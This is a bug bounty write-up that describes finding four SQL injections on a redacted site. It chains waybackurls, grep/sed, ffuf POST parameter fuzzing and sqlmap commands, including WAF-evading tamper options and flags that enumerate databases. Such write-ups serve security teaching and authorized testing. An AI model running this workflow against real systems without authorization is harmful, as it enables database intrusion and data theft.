










# :globe_with_meridians: How I Found multiple SQL Injection with FFUF and Sqlmap in a few minutes

---

# How I Found multiple SQL Injection with FFUF and Sqlmap in a few minutes

Hello all, hope you’re OK. Our journey today is about how I found multiple SQL Injections in a bug bounty program in just a few minutes with a cool technique. Let’s begin and call our target redacted.org.


## Enumeration Phase:

I started to look at the web archive of the target with the [waybackurls](https://github.com/tomnomnom/waybackurls) tool, I found a bunch of endpoints, but I observed a lot of PHP files!! Mmmmm, maybe I find SQL Injection in one of those, Ok Let’s filter the output. so my command will be:

```
waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt



```

*uro is a tool used to delete duplicate urls*

Ok we have a lot of PHP files, Let’s look at some of them




Mmmmmm, the PHP files name seems interesting, I think it can help me to find the parameters. OK let’s do some bash to grep the names after *get* to make a list of parameters to brute force in the endpoints. Let’s goooo

## Getting Parameters:

Firstly, we need to grep only lines which contain *get *string and delete all before it and make it unique to avoid the duplicate, so our command will be:

```
$ cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u



```

Niceeeeee!! I did it, but we should remove the .php string to make a list, so I just added the line to the last command *cut -f1 -d”.”*




Ok, we are almost finished, I noticed that all the strings I had contained two words and I don’t know which of them is a parameter, so let’s split it!!! honestly, I didn’t know how to do it, so I did some search about this operation till I came across [this](https://stackoverflow.com/questions/37831227/split-lines-if-uppercase-letter-found-in-a-line), and I found what I want !! and the additional command will be




```
sed 's/[A-Z]\+/\n&/g'
```

Niiiiice!! Ok, but I think that the majority of parameters are lowercase, not uppercase so I’ll keep this as uppercase parameters and convert it to lowercase and I’ll test both of them ;)




so now we have two lists of parameters let’s test it with FFUF, firstly I’ll grep endpoint and test all params with it, I’ll try the lowercase-parameters first with this command:

```
ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"
```

But sadly I got nothing

Honestly, I got depressed after that, but an idea came to my mind, what about changing the request method to POST! rapidly I go to my VPS and changed that method ,

```
ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"
```

And BINGOOOOOOO I got commitment & id parameters as a result

Ok now go to the endpoint and intercept the request with burp and change the request method, add the parameter, and copy it to a txt file to run sqlmap on it.

## Exploitation:

The command will be:

```
sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast
```

— — — — — — — — — — — — — — — — — — — — — — — — — —

```
--level 5 --> Level of tests to perform.
--risk 3 --> Risk of tests to perform
--dbms --> back-end DBMS value
--no-cast --> to avoid use cast-alike statements during data fetching
--tamber --> to evade filters and WAF’s
"--hostname --current-user --current-db --dbs" --> to retrieve info about the database



```

*#1st SQLI*

AND I DID IT !!!!!!!

Now let’s try this way with other endpoints ;)

## Get Mahmoud Youssef’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

I picked up some endpoints and used the same FFUF command, surly with POST method.

AND BINGO!! I Found three endpoints with valid parameters from my list.

Second SQLI : ws_delComment.php with id parameter




*#2nd SQLI*

Third SQLI: getTargets.php with goal parameter




*#3rd SQLI*

Fourth One: mailing_lists.php with list parameter




*#4th SQLI*

Very Nice we got four SQL Injections :)

I reported all SQL Injections to the security team and they approved it and they’re working to solve the issues!!

Thanks For Reading, Cheers!

For any questions or feedback, dm me on [Twitter](https://twitter.com/0xmahmoudJo0).

---
